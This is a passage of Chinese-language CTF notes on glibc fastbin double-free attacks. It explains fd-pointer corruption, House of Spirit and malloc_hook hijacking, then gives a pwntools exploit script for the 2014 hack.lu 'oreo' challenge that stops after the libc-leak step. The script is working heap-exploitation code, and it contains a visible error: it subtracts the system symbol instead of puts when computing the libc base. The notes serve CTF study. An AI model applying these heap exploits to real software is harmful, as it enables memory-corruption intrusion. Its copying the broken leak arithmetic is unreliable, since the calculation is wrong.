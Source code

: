 free函数在释放fastbin时，只对main_arena指向的当前chunk进行检查，并且只指向bin的第一个chunk，容易导致double free。

double free的结果是bin的头部chunk的fd值不再为零，可指向下一个地址，通过修改fd的之后可将fastbin分配到任意位置。

![double](C:\Users\陈泽培\Desktop\学习用图\double.png)



**辅助方法：**

House Of Spirit(构造虚假的stack_chunk)

Alloc to Stack(劫持chunk指针到stack_chunk上)

Arbitrary Alloc(劫持chunk指针到去其他位置，比如到malloc_hook，改变该函数的内容，至于fake_chunk怎么找，看教程)。

###### 例题1：2014 hack.lu oreo

[题目地址：](https://github.com/ctf-wiki/ctf-challenges/tree/master/pwn/heap/fastbin-attack/2014_hack.lu_oreo)



exp:

```python
#encoding=utf-8
from pwn import*

context.terminal = ['gnome-terminal', '-x', 'sh', '-c']
if args['DEBUG']:
    context.log_level = 'debug'
context.binary = "./oreo"
oreo = ELF("./oreo")
p = process('./oreo')
log.info('PID: ' + str(proc.pidof(p)[0]))
libc = ELF('./libc.so.6')

def add(descrip,name):
    p.sendline('1')
    p.sendline(name)
    p.sendline(descrip)

def show_rifle():
    p.sendline('2')

def order():
    p.sendline('3')

def message(notice):
    p.sendline('4')
    p.sendline(notice)

def exp():
    print 'step 1. leak libc base'
    #申请0x38,实际用户拿到的只有0x34，剩下的去precv_size拿。
    name = 27*'a' + p32(oreo.got['puts'])
    #利用堆溢出泄露got表地址从而得到libc_base
    #*((_DWORD *)i + 13的的含义是i+13*4，其中DWORD是强制类型转换为4字节
    #所以next_chunk位于chunk的最后4个字节
    #所以打印出next_chunk的地址也就是put函数的got表位置
    add(25*'a',name)
    show_rifle()
    p.recvuntil('Description: ')
    p.recvuntil('Description: ')
    puts_addr = u32(p.recvuntil('\n',drop=True)[:4])
    log.success('puts addr: '+ hex(puts_addr))
    libc_base = puts_addr - libc.symbols['system']
    system_addr = libc_base + libc.symbols['system']
```